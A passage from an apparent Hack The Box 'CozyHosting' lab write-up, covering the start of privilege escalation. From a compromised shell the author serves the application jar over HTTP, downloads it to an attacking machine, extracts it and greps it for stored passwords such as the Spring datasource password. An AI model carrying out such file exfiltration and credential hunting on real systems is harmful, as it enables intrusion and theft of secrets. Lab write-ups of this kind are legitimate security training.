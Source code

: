 
### Privilege Escalation
After stabilizing the shell, I started enumeration. There is a ```cloudhosting-0.0.1.jar``` file in the directory we land in. We can transfer this file
 to our local machine for further analysis.

```
app@cozyhosting:/app$ ls -al
total 58856
drwxr-xr-x  2 root root     4096 Aug 14  2023 .
drwxr-xr-x 19 root root     4096 Aug 14  2023 ..
-rw-r--r--  1 root root 60259688 Aug 11  2023 cloudhosting-0.0.1.jar
app@cozyhosting:/app$ python3 -m http.server 8000
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
```

```
┌──(kali㉿kali)-[/tmp]
└─$ wget http://cozyhosting.htb:8000/cloudhosting-0.0.1.jar
--2025-01-27 11:11:47--  http://cozyhosting.htb:8000/cloudhosting-0.0.1.jar
Resolving cozyhosting.htb (cozyhosting.htb)... 10.10.11.230
Connecting to cozyhosting.htb (cozyhosting.htb)|10.10.11.230|:8000... connected.
HTTP request sent, awaiting response... 200 OK
Length: 60259688 (57M) [application/java-archive]
Saving to: ‘cloudhosting-0.0.1.jar’

cloudhosting-0.0.1.jar             100%[================================================================>]  57.47M   910KB/s    in 60s     

2025-01-27 11:12:47 (986 KB/s) - ‘cloudhosting-0.0.1.jar’ saved [60259688/60259688]
```
And to extract...

```
┌──(kali㉿kali)-[/tmp/jar]
└─$ jar xf cloudhosting-0.0.1.jar 
Picked up _JAVA_OPTIONS: -Dawt.useSystemAAFontSettings=on -Dswing.aatext=true
```

Now we can enumerate the files for credentials. ```spring.datasource.password``` in ```BOOT-INF/classes/application.properties```
seems worth digging into.

```
┌──(kali㉿kali)-[/tmp/cozy]
└─$ grep -ri passw
grep: cloudhosting-0.0.1.jar: binary file matches
grep: BOOT-INF/classes/htb/cloudhosting/database/CozyUserDetailsService.class: binary file matches
grep: BOOT-INF/classes/htb/cloudhosting/database/CozyUser.class: binary file matches
grep: BOOT-INF/classes/htb/cloudhosting/secutiry/SecurityConfig.class: binary file matches
grep: BOOT-INF/classes/htb/cloudhosting/scheduled/FakeUser.class: binary file matches
BOOT-INF/classes/static/assets/vendor/remixicon/remixicon.css:.ri-lock-password-fill:before { content: "\eecf"; }
BOOT-INF/classes/static/assets/vendor/remixicon/remixicon.css:.ri-lock-password-line:before { content: "\eed0"; }
BOOT-INF/classes/static/assets/vendor/remixicon/remixicon.less:.ri-lock-password-fill:before { content: "\eecf"; }
BOOT-INF/classes/static/assets/vendor/remixicon/remixicon.less:.ri-lock-password-line:before { content: "\eed0"; }
BOOT-INF/classes/static/assets/vendor/remixicon/remixicon.svg:    <glyph glyph-name="lock-password-fill"
BOOT-INF/classes/static/assets/vendor/remixicon/remixicon.svg:    <glyph glyph-name="lock-password-line"
grep: BOOT-INF/classes/static/assets/vendor/remixicon/remixicon.eot: binary file matches
BOOT-INF/classes/static/assets/vendor/remixicon/remixicon.symbol.svg:</symbol><symbol viewBox="0 0 24 24" id="ri-lock-password-fill">
```